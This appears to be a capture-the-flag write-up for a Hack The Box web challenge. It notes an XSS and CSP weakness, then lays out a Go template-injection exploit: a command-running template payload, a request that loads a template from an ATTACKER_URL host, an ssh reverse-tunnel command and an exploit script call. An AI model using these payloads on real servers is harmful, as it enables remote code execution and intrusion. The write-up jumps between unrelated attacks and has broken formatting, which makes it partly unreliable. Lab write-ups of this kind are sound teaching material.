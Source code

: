 # XSS > CDN 

## website

<img src= "cursed_party_website.PNG">

## Description

Anytime you see "this will be reviewed" "stored for review" Admin will review" | think XSS attack.
NOTE: Docker file installs google chrome, potentials client-side exploit.![image](https://github.com/RosePwns/HTB_Challenges/assets/109770223/af9a73bf-724d-4cce-b48a-676ae2ec3689)
After reviewing the source code, we can see that on the admin page. We notice the username field is vulnerable to HTML injection because it is piping the user's input to 'safe' without any sanitization.
We can also see that the flag is inside of the JWT. So we need to get the JWT in order to get the flag. 
After inspecting a request, we also see that a CDN is being used in the Content Security Policy.
We can use csp-evaluator to analyze the failures of this CSP:

![image](https://github.com/RosePwns/HTB_Challenges/assets/109770223/065e8432-39aa-4eec-ad10-44246631235d)

## Set Up

1. Burpsuite Repeater/collaborator(Testing): GET requests to /render?use_remote=true&page=https://ATTACKER_URL/test.go.
2. Apache2 server hosting test.go).
3. Setup file with SSTI payload:
   ```go
    {{.FetchServerInfo "cd /;ls -la"}}
5. Tunnel using `ssh -R 80:localhost:80 localhost.run -i /home/$user/.ssh/id_rsa`.

## Exploit

This Python script automates the exploitation of a server-side template injectiony in the web application. It sends a GET request to a specified vulnerable URL, loading and executing our attacker-controlled template on the target server, resulting in remote code execution. 
   ```python
   python exploit.py http://target-server.com http://attacker-server.com/attacker-template.txt
```
## More Information

[SSTI in GO](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/README.md)
